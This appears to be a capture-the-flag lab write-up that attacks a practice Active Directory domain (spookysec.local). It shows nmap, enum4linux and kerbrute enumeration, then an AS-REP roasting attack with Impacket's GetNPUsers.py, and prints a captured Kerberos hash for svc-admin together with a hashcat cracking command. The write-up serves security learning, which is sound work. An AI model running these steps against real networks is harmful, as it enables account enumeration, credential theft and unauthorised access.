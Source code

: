 

scan ports
`nmap -sV -sC -oN nmap.out <target ip>`

Ports 139 and 445 are used by SMB. To enumerate SMB a great tool to use is enum4linux.

scan smb
`enum4linux <ip>`

enumerate for users
`kerbrute userenum -dc <target ip> -d spookysec.local userlist.txt`


After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** ASReproasting occurs when a user account has the privilege “Does not require Pre-Authentication” set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

## **Retrieving Kerberos Tickets**

[Impacket](https://github.com/SecureAuthCorp/impacket) has a tool called “GetNPUsers.py” (located in impacket/examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that’s necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

For this we use a tool within #impacket

`python3 GetNPUsers.py -no-pass -usersfile ~/Downloads/output.txt -dc-ip 10.10.122.250 spookysec.local/
`

This returns that the user svc-admin can query a ticket with no password! We the the following Kerberos hash:

`$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:408ee4a3e91ec877b931d35c56364c77$63dc9e093d6f3ddfd0074033786ed4d4d6e5f3e9f27be7f98866c0c91c4271c6c8a721eafa9e343a2b9638da64fe71d7563c31e51e6aac0686ba9025ab8ff2d41b8b24f38888cd803c70568744a12daa95cca16b73fa6bc5b20f1fb697b29fd1fe39fa0553ae07ad7e6e2f5232e306ee2abf3ee2ba8ebc704bc96f0d60cd245f96f4caa7c20c3a673fba2b25a384593b01e334560348a146d9168e1fc594b8c59e11382193bd2b3f1c421f9d5fdc61167c8f3bfa18d60fc6fca79923c16b707927719330363b593c28ccc0c7dd2c5e7696b43d45a4bc016341f773805c53f51d2b6ae4a0fa3c3280a18a9d53d9b5fd08337c`

Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC?  _Kerberos 5 AS-REP etype 23_

**What mode is the hash?**

> **_Answer_**: _18200_

`hashcat -m 18200 hash.txt passwordlist.txt`

